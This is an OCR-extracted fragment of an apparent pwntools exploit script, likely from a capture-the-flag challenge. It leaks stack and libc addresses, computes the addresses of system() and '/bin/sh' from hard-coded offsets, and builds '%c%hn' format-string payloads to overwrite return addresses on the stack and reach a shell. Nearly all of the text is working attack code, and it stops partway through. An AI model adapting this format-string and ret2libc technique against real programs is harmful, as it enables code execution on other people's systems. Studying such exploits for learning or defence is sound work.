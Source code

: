 ```
p.sendline(payload)
p.recvuntil(".")
stack_addr1 = int(p.recvuntil(".",drop = True),16)
log.info("stack_addr1 addr: " + hex(stack_addr1))
libc_start_main_ret = int(p.recvuntil(".",drop = True),16)
log.info("libc_start_main_ret addr: " + hex(libc_start_main_ret))
stack_addr2 = int(p.recvuntil(".",drop = True),16)
log.info("stack_addr2 addr: " + hex(stack_addr2))

libc_base = libc_start_main_ret - 0x202e1
system_addr = libc_base + 0x3f480
sh_addr = libc_base + 0x1619b9
log.info("libc_base addr: " + hex(libc_base))
log.info("system_addr addr: " + hex(system_addr))
log.info("sh_addr addr: " + hex(sh_addr))


##########step2##########

#########ret addr#######
#echo_better_ret = 0x7ffcb0f30b18
echo_better_ret = stack_addr1 + 0x34f0cd4b8
#echo_ret = 0x7fffffffdfb8
echo_ret = stack_addr1 + 0x18

'''
##############test############
for i in range(0,98) :
   p.sendline('wait')

pause()


p.sendline('wait')

p.interactive()
#############test##############

'''

pr_addr = 0x400a63


def edit1(low):
    pattern = "%{}c%{}$hn"
    payload = ""
    payload += pattern.format(low,8)
    payload = payload.ljust(16,"A")
    #pause()
    p.sendline(payload)

def edit2(data):
    pattern = "%{}c%{}$hn"
    payload = ""
    payload += pattern.format(data,12)
    payload = payload.ljust(16,"B")
    #pause()
    p.sendline(payload)

n = 16 + 14
pattern = "%{}c%{}$hn"

stack_addr2_low = stack_addr2 & 0xffff
```